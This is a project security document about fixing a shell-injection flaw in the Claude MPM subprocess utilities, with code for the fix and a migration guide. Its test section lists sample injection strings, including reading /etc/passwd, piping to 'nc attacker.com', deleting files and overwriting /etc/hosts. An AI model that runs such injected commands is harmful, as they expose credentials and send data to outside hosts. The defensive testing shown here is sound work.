 # Subprocess Security Vulnerability Fix

## Overview

This document describes the security vulnerability that was identified and fixed in the Claude MPM subprocess utilities, along with the comprehensive remediation implemented.

## Vulnerability Description

**CVE Classification**: Shell Injection Vulnerability  
**Severity**: High  
**Impact**: Remote Code Execution  

### Original Issue

Several files in the codebase were using `subprocess.run()` with `shell=True` and user-controllable input, creating a critical shell injection vulnerability. This allowed potential attackers to execute arbitrary commands by injecting shell metacharacters.

### Affected Files

1. `src/claude_mpm/utils/subprocess_utils.py` - Missing secure command execution function
2. `tools/admin/monitoring_daily_checklist.py` - Used `shell=True`
3. `tests/integration/misc/test_cli_fixes.py` - Used `shell=True`
4. `tests/integration/test_native_agents_poc.py` - Used `shell=True`
5. `tools/dev/examples/example_run_guarded.py` - Used `shell=True`

## Security Fix Implementation

### 1. Secure Command Execution Function

Added a new `run_command()` function to `subprocess_utils.py`:

```python
def run_command(command_string: str, timeout: float = 60) -> str:
    """
    Runs a command securely, avoiding shell injection.
    
    Args:
        command_string: Command string to execute
        timeout: Maximum time to wait for completion (seconds)
        
    Returns:
        Command stdout output
        
    Raises:
        SubprocessError: If the command fails or times out
    """
    # Split command string into a list to avoid shell=True
    command_parts = shlex.split(command_string)
    try:
        result = subprocess.run(
            command_parts,
            capture_output=True,
            text=True,
            check=True,  # Raise an exception for non-zero exit codes
            timeout=timeout  # Prevent the process from hanging
        )
        return result.stdout
    except (subprocess.CalledProcessError, subprocess.TimeoutExpired) as e:
        # Log the error, including stderr for better debugging
        stderr = e.stderr if hasattr(e, 'stderr') else 'N/A'
        logger.error(f'Command "{command_string}" failed: {stderr}')
        raise SubprocessError(...)
```

### 2. Key Security Improvements

#### Use of `shlex.split()`
- Converts command strings to argument lists safely
- Treats shell metacharacters as literal text
- Prevents command injection through special characters

#### Removal of `shell=True`
- All subprocess calls now use argument lists instead of shell execution
- Eliminates shell interpretation of metacharacters
- Prevents execution of injected commands

#### Enhanced Error Handling
- Proper exception handling with detailed error messages
- Timeout protection to prevent hanging processes
- Comprehensive logging for security auditing

### 3. Files Updated

All affected files were updated to:
1. Import `shlex` module
2. Replace `shell=True` with `shlex.split()` preprocessing
3. Use argument lists instead of command strings

## Security Testing

### Comprehensive Test Suite

Created `tests/security/test_subprocess_security.py` with tests for:

1. **Shell Injection Prevention**: Verifies that malicious commands are treated as literal text
2. **Quoted Argument Handling**: Ensures proper parsing of quoted strings
3. **Timeout Protection**: Validates timeout enforcement
4. **Error Handling**: Tests proper exception handling
5. **Safe Subprocess Calls**: Confirms use of secure subprocess parameters

### Example Attack Vectors Tested

The following injection attempts are now safely handled:

```python
injection_attempts = [
    "echo test && rm file.txt",      # Command chaining
    "echo test; cat /etc/passwd",    # Command separation
    "echo test | nc attacker.com",   # Piping
    "echo test > /etc/hosts",        # File redirection
    "echo test `whoami`",            # Command substitution
    "echo test $(id)",               # Command substitution
    "echo test & background_cmd",    # Background execution
]
```

All these attempts now result in the shell metacharacters being printed as literal text instead of being executed as commands.

## Migration Guide

### For Developers

When adding new subprocess calls:

```python
# ❌ NEVER do this (vulnerable to injection)
subprocess.run(user_input, shell=True)

# ✅ DO this instead (secure)
from claude_mpm.utils.subprocess_utils import run_command
result = run_command(user_input)
```

### For Existing Code

Replace patterns like:

```python
# Old (vulnerable)
result = subprocess.run(cmd, shell=True, capture_output=True, text=True)

# New (secure)
import shlex
command_parts = shlex.split(cmd)
result = subprocess.run(command_parts, capture_output=True, text=True)
```

## Verification

Run the security test suite to verify the fixes:

```bash
python -m pytest tests/security/test_subprocess_security.py -v
```

All tests should pass, confirming that:
- Shell injection attacks are prevented
- Normal command execution still works
- Error handling is robust
- Timeouts are enforced

## Impact Assessment

### Security Benefits
- **Eliminated** shell injection vulnerabilities
- **Reduced** attack surface for command execution
- **Enhanced** logging and error handling for security auditing

### Functional Impact
- **No breaking changes** to existing functionality
- **Improved** error messages and debugging information
- **Added** timeout protection against hanging processes

## Recommendations

1. **Code Review**: All future subprocess usage should be reviewed for security
2. **Static Analysis**: Consider adding linting rules to detect `shell=True` usage
3. **Security Testing**: Include subprocess security tests in CI/CD pipeline
4. **Documentation**: Update development guidelines to mandate secure subprocess usage

## References

- [OWASP Command Injection Prevention](https://owasp.org/www-community/attacks/Command_Injection)
- [Python subprocess Security](https://docs.python.org/3/library/subprocess.html#security-considerations)
- [shlex Documentation](https://docs.python.org/3/library/shlex.html)
